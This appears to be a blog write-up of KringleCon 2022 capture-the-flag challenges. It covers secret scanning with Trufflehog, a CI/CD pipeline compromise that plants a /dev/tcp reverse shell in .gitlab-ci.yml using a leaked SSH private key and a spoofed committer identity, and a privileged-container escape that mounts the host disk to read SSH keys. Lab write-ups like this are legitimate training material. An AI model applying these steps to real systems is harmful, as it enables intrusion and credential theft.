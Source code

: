 ```yaml
---
layout: kringlecon2022
title: "Elfen Ring"
author: "Andrew Cherney"
date: 2023-01-15 19:52:13
tags: kringlecon ci/cd sandbox-escape
---
```

## Clone with a Difference
***
___
Use Trufflehog to find secrets in a Git repo. Work with Jill Underpole in the Cloud Ring for hints. What's the name of the file that has AWS credentials?

***

easy challenge
install trufflehog
scan https://haugfactory.com/orcadmin/aws_scripts

`git clone https://github.com/trufflesecurity/trufflehog.git`

`cd trufflehog; go install`

`trufflehog git https://haugfactory.com/orcadmin/aws_scripts`

___





## Jolly CI/CD
***
___
find misconfigurations and vulnerabilites in the CI/CD pipeline

***

[CI/CD Attack Steps](https://www.paloaltonetworks.com/blog/2021/10/anatomy-ci-cd-pipeline-attack/)

we start off dropped into a container and needing to make an escape of some sorts. Looking at the output of `df -HaT` we can see `/dev/root` is mounted at multiple locations. Dead end

talking to Tinsel Upatree we get a link to a repo `http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`

start by cloning that git
`git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`

looks like a wordpress shop backend
database seems to be using some defaults

DB_NAME: wordpress
DB_USER: example username
DB_PASS: example password
DB_HOST: mysql

WORDPRESS_ENV: `http://wordpress.flag.net.internal:8080`

check `git log` and see whoops, update gitlab-ci.yml, and update wp-config

`'WORDPRESS_AUTH_KEY':'828baa18284a5a7bfd11a00b872370c8ed403f3b'
'WORDPRESS_SECURE_AUTH_KEY':'642534c3a9a10dde9d2837e1a3c940af3dca0893'
'WORDPRESS_LOGGED_IN_KEY':'2752181bd2e986d32448bd55beb4ac6c49a709f4'
'WORDPRESS_NONCE_KEY':'5bf27de94d31f288ae971b76b2281329c2bbdfee'
'WORDPRESS_AUTH_SALT':'fdc0ba7e8bf25d7197f4367f8fb81eb9ee79f5e8'
'WORDPRESS_SECURE_AUTH_SALT';'760c60029c3867ea1f27011896c3dc5316d895cd'
'WORDPRESS_LOGGED_IN_SALT';'aa193eca87378d51d6e574fceb5120c92cd1349c'
'WORDPRESS_NONCE_SALT':'debed84d451729b0c0b316661ff8caf40875514a'`

private key in whoops

`-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----`

authorized keys too

`ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com`

re-clone the repo with this new ssh key after adding it to .ssh (turns out I can use something i looked up later in the process to properly reclone the repo with the ssh key)

`nano .ssh/id_rsa`
`GIT_SSH_COMMAND="ssh -i /home/samways/.ssh/id_rsa" git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`

with the private ssh key likely we can make changes to the repo itself. With this info I can upload scripts to be run through the `.gitlab-ci.yml` file in the git repo. 

add this reverse shell to the script.
`    - sh -i >& /dev/tcp/172.18.0.99/7222 0>&1`

here i among used and pretended to be sporx, among us

`git add .gitlab-ci.yml`
`git config --global user.email "sporx@kringlecon.com"`
`git config --global user.name "sporx"`
`git commit -m 'reverse shell'`

Now I need to push this commit to the main branch. If I try to do that now it will ask for a password and username, the first of which I do not have. I found reference to GIT_SSH_COMMAND, which can be used to push the commit to main with my ssh key without a password or username. 

`GIT_SSH_COMMAND="ssh -i /home/samways/.ssh/id_rsa" git push origin main`


if we remember the gitlab yml file we changed there was an ssh as root for the wordpress flag net where the ssh key is in a gitlab-runner machine, which is the one we just got a shell into. lets try to run that. 

`ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal`

oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT

___




## Prison Escape
***
___
escape the container

***

using `ls /dev` we can see that we are in a privileged container and in this list there might be the host disk. vda is a strong contender for a host disk so I mount the disk in a new directory and look inside.
`mkdir /tmp/freedom`
`sudo mount /dev/vda /tmp/freedom`
then the challenge is to find the keys which probably means ssh keys
`cat /tmp/freedom/home/jailer/.ssh/*`
then we grab that key and escape

___












